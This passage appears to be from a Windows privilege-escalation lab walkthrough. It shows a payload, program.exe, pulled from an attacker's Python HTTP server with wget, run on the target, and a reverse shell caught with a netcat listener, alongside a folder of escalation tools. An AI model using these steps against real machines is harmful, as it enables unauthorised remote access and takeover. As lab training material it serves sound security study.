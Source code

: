 ```bash
PS C:\PrivEsc> wget xx.xxx.x.xx:8000/program.exe -o program.exe
```

```bash
PS C:\PrivEsc> dir


    Directory: C:\PrivEsc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/22/2020   9:38 PM         222592 accesschk.exe
-a----         6/5/2020   8:32 AM            959 AdminPaint.lnk
-a----        2/22/2020   9:38 PM            232 CreateShortcut.vbs
-a----         6/5/2020   8:32 AM            990 lpe.bat
-a----        2/22/2020   9:38 PM         678312 plink.exe
-a----        2/22/2020   9:38 PM         494860 PowerUp.ps1
-a----         6/5/2020   9:06 AM          27136 PrintSpoofer.exe
-a----        2/22/2020   9:38 PM        1258824 Procmon64.exe
-a----       10/14/2025   5:59 PM           7168 program.exe
-a----        2/22/2020   9:38 PM         374944 PsExec64.exe
-a----        5/11/2020   9:23 AM         159232 RoguePotato.exe
-a----         6/5/2020   8:32 AM            221 savecred.bat
-a----        2/22/2020   9:38 PM         160768 Seatbelt.exe
-a----        2/22/2020   9:38 PM          26112 SharpUp.exe
-a----         3/6/2020   7:00 PM         229376 winPEASany.exe
```

```bash
PS C:\PrivEsc> wget xx.xxx.x.xx:8000/program.exe -o program.exe
```

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xxx - - [15/Oct/2025 01:59:18] "GET /program.exe HTTP/1.1" 200 -
```

```bash
PS C:\PrivEsc> .\program.exe
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 49861
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\PrivEsc>
```


<h2 align="center">Task 3 . Service Exploits - Insecure Service Permissions</h2>
